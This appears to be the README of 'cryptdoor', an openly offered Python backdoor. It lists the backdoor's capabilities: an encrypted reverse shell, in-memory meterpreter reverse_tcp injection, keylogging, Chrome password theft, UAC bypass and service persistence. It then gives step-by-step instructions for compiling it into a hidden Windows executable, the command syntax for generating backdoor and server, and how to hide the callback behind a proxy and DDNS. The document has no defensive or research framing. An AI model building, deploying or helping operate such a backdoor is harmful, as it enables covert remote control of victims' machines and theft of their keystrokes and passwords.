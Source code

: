 cryptdoor
=========

AES encrypted python backdoor that communicates AES encrypted data.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is also implemented for windows using pyHook and the keystrokes are transmitted over the secure AES encrypted connection.
All communications apart from ones meterpreter makes are encrypted with AES.
On top of this the script itself is encrypted with AES and decrypts itself in memory (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write
	"C:\Python27;C:\Python27\Scripts"
If you do already have one just add a colon before adding this to the variable like:
	"C:\oldpath;C:\Python27;C\Python27\Scripts"
5. Open a new cmd terminal and you should be able to:
	pip install pyinstaller pycrypto
6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py
10. Open a new cmd promt and cd to wherever backdoor.py is.
	pyinstaller -F -w backdoor.py
11. That's it, enjoy your exe in dist.

Usage
=========

cryptdoor.py will make the backdoor and server.
The syntax is:

	./cryptdoor.py host port

You can add a -p to attempt automatic persistence like:

	./cryptdoor.py host port -p

host and port refer to the host and port of the listening server.

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to pwd.

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:
1. Edit the cryptdoor script from line 245-24, and fill in the values for the proxy details.
2. Get a DDNS pointed at your IP (proxying does not work without one.)
3. Then generate your backdoor in the normal way but replace the IP with your DDNS:

	./cryptdoor.py DDNS port



